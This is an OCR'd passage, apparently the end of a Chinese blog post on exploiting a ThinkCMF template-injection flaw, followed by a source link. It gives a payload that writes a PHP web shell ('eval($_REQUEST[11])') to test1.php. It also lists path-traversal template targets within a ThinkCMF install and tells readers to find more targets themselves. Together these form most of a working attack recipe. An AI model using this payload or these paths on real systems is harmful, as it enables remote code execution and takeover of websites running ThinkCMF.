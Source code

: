    content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>
    /../../../public/index
    /../../../public/exception
    /../../../data/index
    /../../../data/runtime/index
    /../../../plugins/Mobileverify/View/admin_index
    /../../../plugins/Mobileverify/View/index
    /../../../plugins/Mobileverify/View/widget
    /../../../plugins/Demo/View/admin_index
    /../../../plugins/Demo/View/index
    /../../../plugins/Demo/View/widget
    /../../../application/Install/View/Public/footer
    /../../../application/Install/View/Public/head
    /../../../application/Install/View/Public/header
    /../../../application/Common/index
    /../../../application/Portal/Lang/en-us/index
    /../../../application/Api/Lang/en-us/index
    /../../../application/Api/Lang/zh-cn/index
    /../../../application/Comment/Lang/en-us/index
    /../../../application/Comment/Lang/zh-cn/index

还有最后一句废话：模版注入对于linux 并不好用 : )
差不多了，剩下的自己去thinkcmf里面自己找

四、参考链接
------------

> 文章来源于<https://www.yuque.com/pmiaowu/bfgkkh/aiiak1>
